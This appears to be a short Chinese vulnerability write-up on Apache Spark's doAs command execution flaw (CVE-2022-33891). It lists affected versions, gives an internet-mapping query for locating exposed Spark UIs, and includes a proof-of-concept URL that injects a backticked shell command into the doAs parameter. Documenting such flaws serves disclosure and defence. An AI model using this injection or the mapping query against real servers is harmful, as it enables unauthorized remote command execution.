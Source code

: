 # Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE 

## 漏洞影响

<a-checkbox checked>Spark Core - Apache <=3.0.3</a-checkbox></br>

<a-checkbox checked>3.1.1 <= Spark Core - Apache <=3.1.2</a-checkbox></br>

<a-checkbox checked>3.2.0 <= Spark Core - Apache <=3.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="APACHE-Spark"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1662174736577-4e5a3852-3359-43a2-8470-228e306f34e5.png)

验证POC

```html
/jobs/?doAs=`touch /tmp/test.txt`
```

![img](../../../.vuepress/public/img/1662174983427-249a9ba2-f516-45dc-b08e-206c2830ff81.png)